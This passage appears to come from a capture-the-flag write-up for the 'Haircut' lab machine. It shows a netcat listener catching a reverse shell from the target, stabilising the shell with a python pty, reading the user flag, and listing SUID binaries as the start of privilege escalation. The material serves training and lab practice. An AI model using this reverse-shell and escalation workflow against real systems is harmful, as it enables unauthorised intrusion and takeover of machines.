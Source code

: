 ### Obtaining reverse shell

Afterwards, we will modify the input to upload the reverse shell on our local machine onto the website and we will use curl to spawn the reverse shell.

Afterwards, we will then move on to stabiliizing the reverse shell.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.24] 57040
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:24:15 up  1:12,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@haircut:/$ export TERM=xterm
export TERM=xterm
www-data@haircut:/$ stty cols 132 rows 34
stty cols 132 rows 34
```

### Obtaining user flag

```
www-data@haircut:/home$ cat maria/user.txt
cat maria/user.txt
<Redacted user flag>
```

### Privilege Escalation to root
We realize that
```
www-data@haircut:/tmp$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ntfs-3g
/bin/ping6
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/umount
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/passwd
/usr/bin/screen-4.5.0
/usr/bin/chsh
/usr/bin/chfn
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```
